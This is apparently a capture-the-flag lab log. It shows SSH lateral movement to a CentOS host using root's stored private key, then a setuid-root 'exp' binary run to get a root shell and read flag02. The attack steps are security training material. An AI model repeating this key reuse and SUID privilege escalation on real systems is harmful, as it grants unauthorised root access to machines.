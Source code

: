 ```bash
root@ubuntu:/temp/home/joyce# cd .ssh
root@ubuntu:/temp/home/joyce/.ssh# ls
authorized_keys
root@ubuntu:/temp/home/joyce/.ssh# ssh  -i /root/.ssh/id_rsa joyce@172.22.13.57
Last login: Thu Feb 15 17:09:05 2024 from 172.22.13.14

Welcome to Alibaba Cloud Elastic Compute Service !

[joyce@centos ~]$ 
[joyce@centos ~]$ ls
bash.c  exp
[joyce@centos ~]$ ls -al
total 52
drwx------  3 joyce joyce  4096 Feb 15 17:15 .
drwxr-xr-x. 4 root  root   4096 Aug 10  2022 ..
-rw-r--r--  1 root  root     76 Feb 15 17:15 bash.c
-rw-------  1 joyce joyce   172 Feb 15 17:13 .bash_history
-rw-r--r--  1 joyce joyce    18 Nov 25  2021 .bash_logout
-rw-r--r--  1 joyce joyce   193 Nov 25  2021 .bash_profile
-rw-r--r--  1 joyce joyce   231 Nov 25  2021 .bashrc
-rwsr-sr-x  1 root  root  16784 Feb 15 17:15 exp
drwxr-xr-x  2 root  root   4096 Feb 15 17:08 .ssh
[joyce@centos ~]$ ./exp
[root@centos ~]# ls
bash.c  exp
[root@centos ~]# id
uid=0(root) gid=0(root) groups=0(root),994(joyce)
[root@centos ~]# cat /flag
cat: /flag: No such file or directory
[root@centos ~]# cd /
[root@centos /]# ls
bin   etc         lib         media  pAss.txt  run   sys  var
boot  flag02.txt  lib64       mnt    proc      sbin  tmp
dev   home        lost+found  opt    root      srv   usr
[root@centos /]# cat f*
 SSS  h           d                CCC            d           t         l     
S     h           d               C               d           t  ii     l     
 SSS  hhh   aa  ddd ooo w   w     C    rrr eee  ddd eee nnn  ttt     aa l  ss 
    S h  h a a d  d o o w w w     C    r   e e d  d e e n  n  t  ii a a l  s  
SSSS  h  h aaa  ddd ooo  w w       CCC r   ee   ddd ee  n  n  tt ii aaa l ss  


flag02: flag{90553d7c-e30e-42d9-b873-5888975a7d29}

hint: relay race
[root@centos /]# Connection to 172.22.13.14 closed by remote host.
Connection to 172.22.13.14 closed.
```
